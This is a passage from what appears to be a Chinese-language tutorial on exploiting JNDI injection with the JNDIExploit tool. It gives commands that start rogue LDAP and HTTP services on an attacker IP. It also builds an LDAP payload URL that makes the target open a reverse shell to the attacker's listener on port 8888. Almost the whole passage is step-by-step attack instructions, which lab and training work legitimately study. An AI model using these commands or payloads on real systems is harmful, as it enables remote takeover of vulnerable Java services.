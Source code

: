 首先开启LDAP和HTTP服务：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar  -i 192.168.100.1 //攻击者IP

//可通过加参数来修改LDAP和HTTP服务的端口，具体参考--help帮助
```

![image-20230917110926776](assets/1697159022_6528976e165424c3e5ceb.png)

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar  -i 192.168.100.1 -u 
//查看用法
```

![image-20230917111624682](assets/1697159022_6528976eb57fdfb5ca1c5.png)

```
选择上面的任意一个ldap服务：
比如：
ldap://192.168.100.1:1389/Basic/ReverseShell/[ip]/[port]
构造：
ldap://192.168.100.1:1389/Basic/ReverseShell/192.168.100.1/8888
//攻击ip和监听端口
```

本地开启监听：

![image-20230917111922418](assets/1697159023_6528976f7ecab09821b36.png)
